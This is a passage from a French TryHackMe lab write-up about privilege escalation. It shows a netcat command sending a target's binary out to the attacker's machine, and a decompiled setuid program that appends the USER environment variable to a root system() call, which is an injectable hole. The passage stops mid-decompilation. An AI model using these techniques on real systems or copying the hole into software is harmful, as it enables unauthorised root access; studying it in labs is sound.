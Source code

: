 On se connect sur compte de jenny on trouve un fichier non commun qui est authenticate.    

```bash
$ id
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
$ ./authenticate
Group updated
$ id
uid=1002(jenny) gid=200(developer) groups=200(developer),1002(jenny)
```

Quand on exécute authenticate il nous ajoute dans le groupe developer.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 4444 > authenticate
-----------------------
$ nc 10.9.228.66 4444 < authenticate
```

On transfer le fichier pour analyse. 

```cpp
undefined8 main(void)

{
  __uid_t __uid;
  int iVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined4 local_20;
  undefined local_1c;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __uid = getuid();
  if ((int)__uid < 1000) {
    puts("You need to be a real user to be authenticated.");
  }
  else {
    iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
    else {
      __src = getenv("USER");
      __uid = getuid();
      setuid(0);
      local_48 = 0x20646f6d72657375;
      local_40 = 0x6c6576656420472d;
      local_38 = 0x207265706f;
      local_30 = 0;
      local_28 = 0;
      local_20 = 0;
      local_1c = 0;
      strncat((char *)&local_48,__src,0x14);
      system((char *)&local_48);
      puts("Group updated");
      setuid(__uid);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
```